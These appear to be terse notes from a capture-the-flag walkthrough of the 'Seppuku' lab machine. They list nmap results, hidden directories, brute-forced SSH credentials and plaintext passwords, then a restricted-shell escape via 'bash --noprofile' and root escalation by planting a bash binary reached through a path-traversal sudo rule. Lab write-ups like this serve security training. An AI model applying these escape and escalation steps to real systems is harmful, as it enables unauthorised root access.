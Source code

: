 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Seppuku
# 13/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http        nginx 1.14.2
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8088/tcp open  http        LiteSpeed httpd


http://192.168.187.90:7601/
http://192.168.187.90:7601/keys/
http://192.168.187.90:7601/secret/
hostname seppuku
[22][ssh] host: 192.168.187.90   login: seppuku   password: eeyoree


seppuku@seppuku:~$ cat .passwd
12345685213456!@!@A
ssh seppuku@192.168.187.90 -t "bash --noprofile"
cd /home
cd samurai/
su samurai
12345685213456!@!@A

ssh -i id_rsa tanto@192.168.187.90 -t "bash --noprofile"

mkdir .cgi_bin
cd .cgi_bin/
echo "/bin/bash" > bin
chmod 777 bin
ls -la

sudo ../../../../../../../home/tanto/.cgi_bin/bin /tmp/*
